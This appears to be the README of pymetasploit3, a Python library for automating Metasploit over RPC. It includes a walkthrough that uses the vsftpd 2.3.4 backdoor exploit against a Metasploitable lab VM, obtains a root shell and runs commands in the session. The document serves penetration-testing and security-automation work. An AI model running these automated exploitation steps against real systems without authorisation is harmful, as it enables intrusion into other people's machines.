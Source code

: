 Pymetasploit3
=======

Pymetasploit3 is a full-fledged Python3 Metasploit automation library. It can interact with Metasploit either through msfrpcd or the msgrpc plugin in msfconsole.

# Original library: pymetasploit

This is an updated and improved version of the Python2 pymetasploit library by allfro.

Original project  : https://github.com/allfro/pymetasploit

# Installation

    git clone https://github.com/DanMcInerney/pymetasploit3
    cd [Download path]/pymetasploit3
    pip3 install pymetasploit3 --user (or omit --user to install system-wide, not recommended)

# Basic Usage

## Starting Metasploit RPC server

### Msfconsole
This will start the RPC server on port 55552 as well as the Metasploit console UI
```bash
$ msfconsole
msf> load msgrpc [Pass=yourpassword] 
```
### msfrpcd
This will start the RPC server on port 55553 and will just start the RPC server in the background
```bash
$ msfrpcd -P yourpassword
```

## RPC client

### Connecting to `msfrpcd`

```python
>>> from pymetasploit3.msfrpc import MsfRpcClient
>>> client = MsfRpcClient('yourpassword')
```

The `MsfRpcClient` class provides the core functionality to navigate through the Metasploit framework. Use 
```dir(client)``` to see the callable methods.

```python
>>> [m for m in dir(client) if not m.startswith('_')]
['auth', 'authenticated', 'call', 'client', 'consoles', 'core', 'db', 'jobs', 'login', 'logout', 'modules', 'plugins',
'port', 'server', 'token', 'sessions', 'ssl', 'uri']
>>>
```

Like the metasploit framework, `MsfRpcClient` is segmented into different management modules:

* **`auth`**: manages the authentication of clients for the `msfrpcd` daemon.
* **`consoles`**: manages interaction with consoles/shells created by Metasploit modules.
* **`core`**: manages the Metasploit framework core.
* **`db`**: manages the backend database connectivity for `msfrpcd`.
* **`modules`**: manages the interaction and configuration of Metasploit modules (i.e. exploits, auxiliaries, etc.)
* **`plugins`**: manages the plugins associated with the Metasploit core.
* **`sessions`**: manages the interaction with Metasploit meterpreter sessions.

### Running an exploit

Explore exploit modules:

```python
>>> client.modules.exploits
['windows/wins/ms04_045_wins', 'windows/winrm/winrm_script_exec', 'windows/vpn/safenet_ike_11',
'windows/vnc/winvnc_http_get', 'windows/vnc/ultravnc_viewer_bof', 'windows/vnc/ultravnc_client', ...
'aix/rpc_ttdbserverd_realpath', 'aix/rpc_cmsd_opcode21']
>>>
```

Explore other modules:

```python
>>> client.modules.auxiliary
...
>>> client.modules.encoders
...
>>> client.modules.nops
...
>>> client.modules.payloads
...
>>> client.modules.post
...
```

Create an exploit module object:

```python
>>> exploit = client.modules.use('exploit', 'unix/ftp/vsftpd_234_backdoor')
>>>
```

Explore exploit information:

```python
>>>  print(exploit.description)

          This module exploits a malicious backdoor that was added to the	VSFTPD download
          archive. This backdoor was introduced into the vsftpd-2.3.4.tar.gz archive between
          June 30th 2011 and July 1st 2011 according to the most recent information
          available. This backdoor was removed on July 3rd 2011.

>>> exploit.authors
[pymetasploit3, pymetasploit3]
>>> exploit.options
['TCP::send_delay', 'ConnectTimeout', 'SSLVersion', 'VERBOSE', 'SSLCipher', 'CPORT', 'SSLVerifyMode', 'SSL', 'WfsDelay',
'CHOST', 'ContextInformationFile', 'WORKSPACE', 'EnableContextEncoding', 'TCP::max_send_size', 'Proxies',
'DisablePayloadHandler', 'RPORT', 'RHOST']
>>> exploit.missing_required # Required options which haven't been set yet
['RHOST']
>>>
```

Let's use a [Metasploitable 2](http://sourceforge.net/projects/metasploitable/) instance running on a VMWare
machine as our exploit target. It's running our favorite version of vsFTPd - 2.3.4 - and we already have our exploit
module loaded. Our next step is to specify our target:

```python
>>> exploit['RHOST'] = '172.16.14.145' # IP of our target host
>>>
```

Select a payload:

```python
>>> exploit.targetpayloads()
['cmd/unix/interact']
>>>
```

At this point, this exploit only supports one payload (`cmd/unix/interact`). So let's pop a shell:

```python
>>> exploit.execute(payload='cmd/unix/interact')
{'job_id': 1, 'uuid': '3whbuevf'}
>>>
```

We know the job ran successfully because `job_id` is `1`. If the module failed to execute for any reason, `job_id` would
 be `None`. If we managed to pop our box, we might see something nice in the sessions list:

```python
>>> client.sessions.list
{1: {'info': '', 'username': 'jsmith', 'session_port': 21, 'via_payload': 'payload/cmd/unix/interact',
'uuid': '5orqnnyv', 'tunnel_local': '172.16.14.1:58429', 'via_exploit': 'exploit/unix/ftp/vsftpd_234_backdoor',
'exploit_uuid': '3whbuevf', 'tunnel_peer': '172.16.14.145:6200', 'workspace': 'false', 'routes': '',
'target_host': '172.16.14.145', 'type': 'shell', 'session_host': '172.16.14.145', 'desc': 'Command shell'}}
>>>
```

### Interacting with the shell
Create a shell object out of the session number we found above and write to it:

```python
>>> shell = client.sessions.session('1')
>>> shell.write('whoami')
>>> print(shell.read())
root
>>>
```

Run the same `exploit` object as before but wait until it completes and gather it's output:

```python
>>> cid = client.consoles.console().cid # Create a new console and store its number in 'cid'
>>> print(client.consoles.console(cid).run_module_with_output(exploit, payload='cmd/unix/interact'))
# Some time passes
'[*] 172.16.14.145:21 - Banner: 220 vsFTPd 2.3.4
[*] 172.16.14.145:21 - USER: 331 Please specify the password
...
'

```

`client.sessions.session('1')` has the same `.write('some string')` and `.read()` methods, but running session commands and
 waiting until they're done returning output isn't as simple as console commands. The Metasploit RPC server will return 
 a `busy` value that is `True` or `False` with `client.consoles.console('1').is_busy()` but determining if a 
 `client.sessions.session()`  is done running a command requires us to do it by hand. For this purpose we will use a 
 list of strings that, when any one is found in the session's output, will tell us that the session is done running 
 its command. Below we are running the `arp` command within a meterpreter session. We know this command will return one 
 large blob of text that will contain the characters `----` if it's successfully run so we put that into a list object. 
 
 ```python
>>> session_id = '1'
>>> session_command = 'arp'
>>> terminating_strs = ['----']
>>> client.sessions.session(session_id).run_with_output(session_command, terminating_strs)
# Some time passes
'\nARP Table\n                  ---------------\n  ...`
```

One can also use a timeout and simply return all data found before the timeout expired. `timeout` defaults to 
Metasploit's comm timeout of 300s and will throw an exception if the command timed out. To change this, set 
 `timeout_exception` to `False` and the library will simply return all the data from the session output it found before
 the timeout expired.
 ```python
>>> session_id = '1'
>>> session_command = 'arp'
>>> terminating_strs = ['----']
>>> client.sessions.session(session_id).run_with_output(session_command, terminating_strs, timeout=10, timeout_exception=False))
# 10s pass
'\nARP Table\n                  ---------------\n  ...`
```

### More examples

Many other usage examples can be found in the `example_usage.py` file.

# Contributions

I highly encourage contributors to send in any and all pull requests or issues. And thank you to allfro for writing
the original pymetasploit library.
